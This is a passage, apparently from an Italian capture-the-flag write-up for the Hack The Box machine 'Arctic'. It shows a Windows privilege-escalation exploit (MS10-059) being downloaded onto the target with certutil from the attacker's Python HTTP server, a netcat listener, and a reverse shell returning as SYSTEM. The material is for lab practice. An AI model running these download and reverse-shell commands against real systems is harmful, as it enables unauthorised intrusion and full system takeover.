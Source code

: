 lo scarichiamo e tiriamo su un server python per poterlo scaricare 
nella macchina target:

```
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Dalla macchina target lo scarichiamo con certuli :
```cmd
C:\Users\tolis\Desktop>certutil -urlcache -split -f "http://10.10.14.53:8000/MS10-059.exe" MS10-059.exe
certutil -urlcache -split -f "http://10.10.14.53:8000/MS10-059.exe" MS10-059.exe
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.
```

Ci mettiamo in ascolto con nc sulla nostra macchina:
```bash
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# nc -lnvp 80  
listening on [any] 80 ...
```

lanciamo l'exploit come segue:

```cmd
C:\Users\tolis\Desktop>MS10-059.exe 10.10.14.53 80
```

Otteniamo cosi un shell con massimi privlegi:

```bash
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# nc -lnvp 80  
listening on [any] 80 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.11] 52776
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\Users\tolis\Desktop

17/05/2023  04:37     <DIR>          .
17/05/2023  04:37     <DIR>          ..
17/05/2023  04:35            141.861 Blob0_0.key
17/05/2023  04:35            141.861 Chimicurri.exe
17/05/2023  04:37            784.384 MS10-059.exe
17/05/2023  01:52                 34 user.txt
               4 File(s)      1.068.140 bytes
               2 Dir(s)   1.422.209.024 bytes free

C:\Users\tolis\Desktop>whoami
whoami
nt authority\system
```
